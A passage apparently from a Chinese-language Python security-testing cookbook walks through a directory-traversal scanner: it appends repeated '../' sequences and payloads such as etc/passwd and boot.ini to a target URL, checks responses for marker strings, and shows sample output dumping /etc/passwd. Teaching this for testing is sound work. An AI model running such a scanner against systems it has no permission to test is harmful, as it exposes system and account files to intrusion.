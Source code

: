 ```py
      break
```

使用此脚本时产生的输出示例如下：

```py
Parameter vulnerable

Attack string: ../../../../../etc/passwd

Get me /etc/passwd! File Contents:root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
```

## 它是如何工作的…

我们导入我们在本书中到目前为止所需的库，就像我们做的其他脚本一样：

```py
url = sys.argv[1]
```

然后，我们以 URL 的形式输入。由于我们使用`requests`库，我们应该确保我们的 URL 与 requests 期望的形式匹配，即`http(s)://url`。如果你搞错了，requests 会提醒你：

```py
payloads = {'etc/passwd': 'root', 'boot.ini': '[boot loader]'}
```

我们建立我们将在每次攻击中发送的有效载荷的字典。每对中的第一个值是我们希望尝试加载的文件，第二个值是肯定会在该文件中的值。第二个值越具体，错误报告就会越少；但是，这可能会增加错误否定的机会。请随意在这里包含你自己的文件：

```py
up = "../"
i = 0
```

我们提供向上目录的快捷方式`../`并将其分配给向上变量，并将我们的循环计数器设置为`0`：

```py
for payload, string in payloads.iteritems():
  while i < 7:
```

`Iteritems`方法允许我们遍历字典并将每个键和值分配给变量。我们将第一个值分配为负载，第二个值分配为字符串。然后我们限制我们的循环，以防失败时无限重复。我将其设置为`7`，尽管这可以设置为任何您喜欢的值。请记住，Web 应用程序的目录结构可能高于`7`的可能性：

```py
req = requests.post(url+(i*up)+payload)
```

我们通过获取我们的根 URL，并根据循环和负载的当前数量附加上级目录的当前数量来构建我们的请求。然后将其发送到一个 post 请求中：

```py
if string in req.text:
      print "Parameter vulnerable\r\n"
      print "Attack string: "+(i*up)+payload+"\r\n"
      print req.text
      break
```

